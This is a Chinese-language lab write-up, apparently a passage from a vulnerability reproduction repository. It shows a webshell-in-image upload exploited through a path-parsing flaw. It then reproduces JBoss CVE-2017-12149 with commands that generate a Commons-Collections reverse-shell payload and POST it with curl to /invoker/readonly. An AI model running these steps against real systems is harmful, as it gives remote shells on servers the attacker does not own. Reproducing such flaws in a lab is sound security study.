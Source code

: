 上传图片马，获得上传后的文件物理路径，访问相应的web路径（[http://47.102.143.147/uploadfiles/f47454d1d3644127f42070181a8b9afc.jpg](http://47.102.143.147/uploadfiles/f47454d1d3644127f42070181a8b9afc.jpg)）获得图片

![5cffa665698a720426](https://i.loli.net/2019/06/11/5cffa665698a720426.png)

利用解析漏洞访问（[http://47.102.143.147/uploadfiles/f47454d1d3644127f42070181a8b9afc.jpg/.php](http://47.102.143.147/uploadfiles/f47454d1d3644127f42070181a8b9afc.jpg/.php)）成功解析图片为php

![5cffa7499b31532778](https://i.loli.net/2019/06/11/5cffa7499b31532778.png)

## JBoss 5.x/6.x 反序列化漏洞 （CVE-2017-12149）

`Path:jboss/CVE-2017-12149`

漏洞成因：该漏洞为 Java反序列化错误类型，存在于 Jboss 的 HttpInvoker 组件中的 ReadOnlyAccessFilter 过滤器中。该过滤器在没有进行任何安全检查的情况下尝试将来自客户端的数据流进行反序列化，从而导致了漏洞。

在`/invoker/readonly`请求中，服务器将用户提交的POST内容进行了Java反序列化

![5d005ee4c701964038](https://i.loli.net/2019/06/12/5d005ee4c701964038.png)

使用常规的Java反序列化漏洞的测试方法来复现该漏洞。

### 漏洞复现：

访问[http://47.102.143.147:8080/invoker/readonly](http://47.102.143.147:8080/invoker/readonly)发现返回值为500，确定漏洞存在

![5d00eee777d7b74150](https://i.loli.net/2019/06/12/5d00eee777d7b74150.png)

使用Java反序列化利用工具JavaDeserH2HC.zip（http://scan.javasec.cn/java/JavaDeserH2HC.zip） 生成poc.ser

```powershell
#编译运行
javac -cp .:commons-collections-3.2.1.jar ReverseShellCommonsCollectionsHashMap.java
#生成shell反弹poc
java -cp .:commons-collections-3.2.1.jar  ReverseShellCommonsCollectionsHashMap 47.102.143.147:222
使用curl向服务器发送POST请求（@filename,从文件中读取数据（包括换行符），将读取的数据进行URL编码，然后发送给HTTP服务器）
curl http://47.102.143.147:8080/invoker/readonly --data-binary @ReverseShellCommonsCollectionsHashMap.ser
```

![5d00edd1279f283233](https://i.loli.net/2019/06/12/5d00edd1279f283233.png)
